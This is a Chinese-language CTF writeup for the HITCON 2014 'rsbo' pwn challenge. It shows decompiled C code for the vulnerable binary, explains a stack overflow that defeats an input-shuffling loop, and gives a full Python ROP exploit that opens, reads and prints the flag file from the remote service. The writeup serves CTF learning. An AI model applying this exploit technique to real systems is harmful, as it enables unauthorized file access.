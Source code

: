 ```yaml
---
layout: post
title: HITCON CTF 2014 - rsbo
category: writeup
tags: [pwn]
---
```


> $ nc 210.61.8.96 51342
> https://github.com/hitcon2014ctf/ctf/raw/master/rsbo-4a707e7d07e87ab97348be36efea28dc
> https://dl.dropbox.com/s/ydsuwrxv7soj0je/rsbo-4a707e7d07e87ab97348be36efea28dc

remote pwn 的題目，程式會將輸入的字串打亂後輸出:
![nc](http://3.bp.blogspot.com/-0N4fxq3ia5w/U_IPrwMMmGI/AAAAAAAAAYY/jV242BHQdxc/s1600/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%2B2014-08-18%2B%E4%B8%8B%E5%8D%8810.37.00.png)

<!--more-->

抓下執行檔分析，內容大概如下:

```c
#include <stdio.h>
#include <stdlib.h>

ssize_t read_80_bytes(void *buf)
{
    return read(0, buf, 128);
}

void init()
{
    char buf[16];      // [sp+14h] [bp-24h]@1
    int fd;            // [sp+24h] [bp-14h]@1
    unsigned int seed; // [sp+28h] [bp-10h]@1
    int i;             // [sp+2Ch] [bp-Ch]@1

    fd = open("/home/rsbo/flag", 0);
    read(fd, buf, 16);
    seed = time(NULL);
    for ( i = 0; i < 16; ++i )
        seed = (1337 * seed + buf[i]) % 0x7FFFFFFF;
    close(fd);
    memset(buf, 0, 16);
    srand(seed);
}

int main()
{
    int _rand;       // eax@2
    char buffer[80]; // [sp+10h] [bp-60h]@1
    int tmp;         // [sp+60h] [bp-10h]@2
    int j;           // [sp+64h] [bp-Ch]@2
    size_t len;      // [sp+68h] [bp-8h]@1
    size_t i;        // [sp+6Ch] [bp-4h]@1

    alarm(30);
    init();
    len = read_80_bytes(buffer);
    for ( i = 0; i < len; ++i )
    {
      j = rand() % (i + 1);
      tmp = buffer[i];
      buffer[i] = buffer[j];
      buffer[j] = tmp;
    }
    write(1, buffer, len);
    return 0;
}
```

當輸入大於 80 個 char 時會發生 buffer overflow
但由於中間的迴圈會打亂輸入的內容，
因此沒辦法直接將 main() 的 return address 覆蓋為我們想要的 address

後來想到的解法是
塞108個 NULL 字元 + return address

這樣當迴圈中在做第 89 個字元的交換時，就可以把區域變數 len 蓋成 0，
藉此跳出迴圈，我們所指定的 return address 就不會被修改

接著就可以開始寫 rop payload
但有個問題，程式只會讀取128 bytes，扣掉要讓程式 buffer overflow 的108 bytes
我們的 payload 長度只能小於等於 20 bytes，


最後我用了一個有點懶人的解決方式，
先寫一小段 rop，執行完畢後讓 main() return 到程式的入口點，
再執行一次 main() 的內容，程式就會再讀取 80 bytes
此時我們就可以再送一次 payload，又再執行一小段 rop ，然後再回到程式入口點

我們的目的是
open flag -> read -> write

所以只需要執行三小段的 rop 就可以達到目的:

```py
#!/usr/bin/python
from struct import pack
import socket

open_addr = 0x08048420
write_addr = 0x08048450
read_addr = 0x080483E0
flag_path = 0x080487D0
start_addr = 0x08048490
bss_addr = 0x0804A040

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("210.61.8.96", 51342))

# open("/home/rsbo/flag", 0)
payload = ""
payload += "\x00" * 108
payload += pack("<I", open_addr)
payload += pack("<I", start_addr)
payload += pack("<I", flag_path)
payload += pack("<I", 0)
s.send(payload)

# read(3, bss_addr, 60)
payload = ""
payload += "\x00" * 108
payload += pack("<I", read_addr)
payload += pack("<I", start_addr)
payload += pack("<I", 3)            # fd
payload += pack("<I", bss_addr)     # buf
payload += pack("<I", 60)           # len
s.send(payload)

# write(1, bss_addr, 60)
payload = ""
payload += "\x00" * 108
payload += pack("<I", write_addr)
payload += pack("<I", start_addr)
payload += pack("<I", 1)            # fd
payload += pack("<I", bss_addr)     # buf
payload += pack("<I", 60)           # len
s.send(payload)

print s.recv(1024)
```

Flag: `HITCON{Y0ur rand0m pay1oad s33ms w0rk, 1uckv 9uy}`


